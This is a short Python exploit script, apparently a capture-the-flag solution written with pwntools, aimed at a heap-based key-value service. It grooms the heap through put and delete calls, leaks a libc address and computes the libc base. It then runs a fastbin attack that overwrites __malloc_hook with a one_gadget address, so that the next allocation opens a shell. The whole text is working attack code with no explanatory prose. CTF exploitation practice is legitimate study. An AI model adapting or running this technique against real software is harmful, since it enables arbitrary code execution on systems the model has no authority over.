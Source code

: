 ```python

    put('4', 0xf0, '4')

    put('defense', 0x400, 'defense-data')





    # free those need to be freed

    delete('5')

    delete('3')

    delete('1')



    delete('a' * 0x1f0 + p64(0x4e0))



    delete('4')



    put('0x200', 0x200, 'fillup')

    put('0x200 fillup', 0x200, 'fillup again')



    libc_leak = u64(get('2')[:6].ljust(8, '\x00'))

    p.info('libc leak: 0x%x' % libc_leak)

    

    libc_base = libc_leak - 0x3c4b78



    p.info('libc_base: 0x%x' % libc_base)



    put('fastatk', 0x100, 'a' * 0x58 + p64(0x71) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x10 + 5 - 8))

    put('prepare', 0x68, 'prepare data')



    one_gadget = libc_base + 0x4526a

    put('attack', 0x68, 'a' * 3 + p64(one_gadget))



    p.sendline('DEL') # malloc(8) triggers one_gadget


```
